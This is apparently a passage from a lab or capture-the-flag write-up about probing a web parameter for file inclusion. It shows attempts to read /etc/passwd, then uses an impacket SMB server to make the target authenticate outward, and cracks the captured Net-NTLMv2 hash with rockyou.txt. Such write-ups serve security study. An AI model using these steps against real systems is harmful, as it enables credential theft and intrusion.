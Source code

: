 Testing `theme` parameter

LFI not possible because server script appending `/header.inc` in the end of the path.
```bash
❯ python rfi.py '/etc/passwd'
<!-- [2] file_get_contents(/etc/passwd/header.inc): failed to open stream: No such file or directory
```

RFI over `http://` wrapper is disabled.
```bash
❯ python rfi.py 'http://10.10.15.71'
<!-- [2] include(): http:// wrapper is disabled in the server configuration by allow_url_include=0
```

When try to connect to smb server, 
```bash
❯ impacket-smbserver -smb2support smb .
```
it return "failed to open stream" but smb server get authentication request.

![](screenshots/smb-auth.png)

That means server is trying to connect to the smb server with credentials.

this is a Net-NTLMv2 hash and cracked with rockyou.txt

![](screenshots/john-ntlm-hash.png)
